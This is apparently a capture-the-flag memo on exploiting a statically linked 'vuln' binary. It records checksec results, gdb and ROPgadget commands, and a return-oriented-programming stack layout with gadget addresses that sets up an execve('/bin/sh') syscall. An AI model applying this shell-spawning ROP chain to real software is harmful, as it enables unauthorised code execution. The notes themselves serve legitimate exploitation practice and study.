 # Memo
1. check
```zsh
$ file ./vuln
./vuln: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=94924855c14a01a7b5b38d9ed368fba31dfd4f60, not stripped
$ checksec --file=./vuln --output=json | jq .
{
  "./vuln": {
    "relro": "partial",
    "canary": "no",
    "nx": "yes",
    "pie": "no",
    "rpath": "n/a",
    "runpath": "n/a",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "0"
  }
}
```

2. ghidra

3. gdb
```
x/170xb 0x7fffffffdc6c
```

brute force?

ROP  
- goa
```
rax: 59 sys_execveを指定
rdi: "/bin/sh"へのポインタを指定して実行するファイルを指定
rsi: 0 引数が渡されていないことを指定
rdx: 0 環境変数が渡されていないことを指定
```

```zsh
$ ROPgadget --binary ./vuln --re "mov dword ptr" | grep ret
$ ROPgadget --binary ./vuln --re "rdi" | grep "mov dword"
$ ROPgadget --binary ./vuln --re "pop rdi"
```

- stack




0x00000000004163f4 : pop rax ; ret
"/bin//sh"
0x000000000044a6b5 : pop rdx ; ret
(address)
0x0000000000419127 : mov qword ptr [rdx], rax ; ret
0x0000000000400696 : pop rdi ; ret
(address)
0x0000000000410ca3 : pop rsi ; ret
0
0x000000000044a6b5 : pop rdx ; ret
0
0x00000000004163f4 : pop rax ; ret
59
0x000000000040137c : syscall